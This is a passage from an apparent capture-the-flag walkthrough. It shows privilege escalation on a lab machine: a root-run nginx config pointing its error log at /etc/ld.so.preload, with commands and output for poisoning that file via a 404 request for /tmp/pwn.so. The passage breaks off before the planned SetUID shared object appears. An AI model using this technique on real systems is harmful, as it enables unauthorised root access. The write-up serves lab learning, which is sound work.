 1. Start an nginx server that runs as root, and has the error log set to `/etc/ld.so.preload`.
2. Request a URL that doesn’t exist that has the path `/tmp/pwn.so` so that that path gets into the `ld.so.preload` file.
3. Create shared object to set `bash` SetUID / SetGID.
4. Run `sudo -l` to trigger `pwn.so`.

#### Start nginx

The nginx config looks a lot like before, but this time with an `error_log` defined (and a new port since nginx is still listening on others):

```
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1339;
        root /;
        autoindex on;
    }
}

```

I’ll start that nginx server:

```
activemq@broker:/tmp$ sudo /usr/sbin/nginx -c /tmp/nginx.conf
activemq@broker:/tmp$ netstat -tnlp | grep 1339
tcp        0      0 0.0.0.0:1339            0.0.0.0:*               LISTEN      -

```

Now there’s a server listening on 1339 that writes error logs to `/etc/ld.so.preload`.

#### Poison ld.so.preload

Now I’ll request `/tmp/pwn.so`. The first request looks like a normal 404:

```
activemq@broker:/tmp$ curl localhost:1339/tmp/pwn.so
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

```

It’s important that the library not exist yet, or it won’t error and thus won’t write the log. If I run `curl` again, I’ll see errors:
